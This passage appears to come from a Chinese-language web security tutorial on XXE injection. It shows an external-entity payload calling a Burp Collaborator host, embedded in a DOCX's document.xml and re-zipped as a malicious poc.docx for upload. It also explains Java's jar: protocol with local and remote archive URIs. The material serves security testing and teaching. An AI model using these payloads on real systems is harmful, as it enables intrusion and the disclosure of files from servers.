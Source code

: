打开./unzipped/word/document.xml，并将该相关 payload 写入 XML 文件中。我首先尝试的是 HTTP 请求，如下所示：

```bash
<!DOCTYPE x [ <!ENTITY test SYSTEM "http://[ID].burpcollaborator.net/"> ]>
<x>&test;</x>
```

这些行应该插入到两个根 XML 对象之间，如下图所示：

[![img](assets/1698894099-d59f19418c9f828c7d6c3c3cb4940c65.png)](https://storage.tttang.com/media/attachment/2022/11/14/249e9fe6-1ab9-4897-a513-99ee4cddf9c6.png)

剩下的就是压缩文件以创建恶意的 poc.docx 文件。从我们之前创建的“解压缩”目录中，运行以下命令：

[![img](assets/1698894099-b032d10c16ba832267cfab2b02624bfc.png)](https://storage.tttang.com/media/attachment/2022/11/14/a97eb7ca-6923-46d0-8a2e-6beb61e2dd68.png)

现在上传该恶意文件然后在相关平台中查看是否有相关请求触发。

### [Jar: 协议](#toc_jar)

Jar 协议只能在 Java 的应用程序中触发，它允许访问 PKZIP（.zip，.jar）中的文件，并且适用于本地或者远程文件。

利用方式：

```bash
jar:file:///var/myarchive.zip!/file.txt
jar:https://download.host.com/myarchive.zip!/file.txt
```

**运行过程中：**

-   发送一个 http 请求（[https://download.host.com/myarchive.zip](https://download.host.com/myarchive.zip)）加载一个 ZiP 文档。
-   将 Response 包保存在本地临时文件/tmp 目录下。
-   提取文档内容
-   读取 file.zip
-   删除保存在 /tmp 目录下的文件
